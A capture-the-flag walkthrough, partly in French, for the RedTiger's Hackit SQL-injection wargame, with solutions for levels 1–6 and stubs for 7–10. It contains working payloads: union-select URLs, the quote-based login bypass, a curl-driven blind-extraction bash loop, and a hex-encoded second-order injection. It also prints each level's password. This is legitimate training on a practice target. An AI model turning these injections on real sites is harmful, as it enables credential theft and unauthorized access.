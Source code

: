 RedTigers-Hackit
================
https://redtiger.labs.overthewire.org/

1. Level 1 : Simple SQL-Injection
```
https://redtiger.labs.overthewire.org/level1.php?cat=1%20union%20select%201,2,username,password%20from%20level1_users
```
  You made it dude!

  The password for the next level is: easylevelsareeasy_! 
   
2. Level 2 : Simple login-bypass
```
username : a' OR '1'='1
password : a' OR '1'='1
```
  The password for the next level is: securitycat_says_meow_and_likes_cheese 
  
3. Level 3 : Get an error

  Génération de l'erreur :
```
https://redtiger.labs.overthewire.org/level3.php?usr%5B0%5D=a&usr%5B1%5D=b
```
Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21

```PHP
<?php
  		
	function encrypt($str)
	{
		$cryptedstr = "";
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ 192;
			
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
  
	function decrypt ($str)
	{
		if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
		{
			$str = base64_decode($str);
			if ($str != "" && $str != null && $str != false)
			{
				$decStr = "";
				
				for ($i=0; $i < strlen($str); $i+=3)
				{
					$array[$i/3] = substr($str,$i,3);
				}

				foreach($array as $s)
				{
					$a = $s^192;
					$decStr .= chr($a);
				}
				
				return $decStr;
			}
			return false;
		}
		return false;
	}
?>
```
on le stocke dans un fichier php auquel on ajoute 
```php
echo encrypt($argv[1]);
```

plus qu'à trouver le nombre de champs et afficher le mot de passe 
```
curl --insecure -b level3login=securitycat_says_meow_and_likes_cheese https://redtigire.org/level3.php?usr=`php toto.php "' union select 1,username,3,4,5,password,7 from level3_users where username='Admin "` 
```
 Login correct. You are admin :); 
 The password for the next level is: dont_publish_solutions_GRR! 
 
4. Level 4 : Blind Injection
   Identification de la taille du mot à trouver
```nix
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29%3C10
=> 2 rows
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29%3C20
=> 1 row ==> taille entre 10 et 20 caractères
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29=17
=> mot de 17 caractères

on devine maintenant le mot
for i in {1..17}; do
	for x in {a..z}; do 
	curl --insecure -b level4login=dont_publish_solutions_GRR%21 "https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20SUBSTR(keyword,$i,1)='$x'" 2>/dev/null |grep "2 rows"
	rc=$?
	if [[ $rc == 0 ]] ; then
		echo $x
		break;
	fi

	done
done
manque les derniers caractères :-(

for i in {14..17}; do
	for x in {0..9}; do
	curl --insecure -b level4login=dont_publish_solutions_GRR%21 "https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20SUBSTR(keyword,$i,1)='$x'" 2>/dev/null |grep "2 rows"
	rc=$?
	if [[ $rc == 0 ]] ; then
		echo $x
		break;
	fi

	done
done

==> blindinjection123
```
 Word correct. 
 The password for the next level is: bananas_are_not_yellow-sometimes

5. Level 5 : Advanced login-bypass
```nix
echo -n toto | md5sum
f71dbe52628a3f83a77ab494817525c6  -

login : ' union 'pouet', 'f71dbe52628a3f83a77ab494817525c6
passwd : f71dbe52628a3f83a77ab494817525c6
```
  Login successful!
  
  The password for the next level is: my_cat_says_meow_meowmeow 
  
6. Level 6 : SQL-Injection
```nix
https://redtiger.labs.overthewire.org/level6.php?user=0%20or%20status=1
==> 
Username: 	admin
Email: 	admin@localhost
1er user avec status=1 est admin

https://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,username,1,1,1%20from%20level6_users%20where%20status=1
==> username est utilisé pour une seconde requête

pour injecter dans la seconde requête, on encode en hexadécimal (équivalent de HEX() sql mais désactivé pour l'exercice)
echo -n "' union select 1,2,3,4,5 from level6_users where id=3 -- " | xxd -p | tr -d '\n'
==> 2720756e696f6e2073656c65637420312c322c332c342c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20

https://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,0x2720756e696f6e2073656c65637420312c322c332c342c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,1,1,1%20from%20level6_users%20where%20status=1
==> On obtient les n° de champs
Username: 	2
Email: 	4

echo -n "' union select 1,username,3,password,5 from level6_users where id=3 -- " | xxd -p | tr -d '\n'
ttps://redtiger.labs.overthewire.org/level6.php?user=0%20union%20select%201,0x2720756e696f6e2073656c65637420312c322c332c342c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,1,1,1%20from%20level6_users%20where%20status=1
==> on obtient le mot de pase
Username: 	admin
Email: 	m0nsterk1ll
```
 Login correct. 
 The password for the next level is: dont_shout_at_your_disks*** 
 
7. Level 7 : SQL-Injection
  On valide le formulaire de recherche avec dans le champ de saisie la chaine bidon'
  On obtient la requête utilisée :
```SQL
SELECT news.*,text.text,text.title FROM level7_news news, level7_texts text WHERE text.id = news.id AND (text.text LIKE '%bidon'%' OR text.title LIKE '%bidon'%')
```
8. Level 8 : SQL-Injection
9. Level 9 : SQL-Injection
10. Level 10
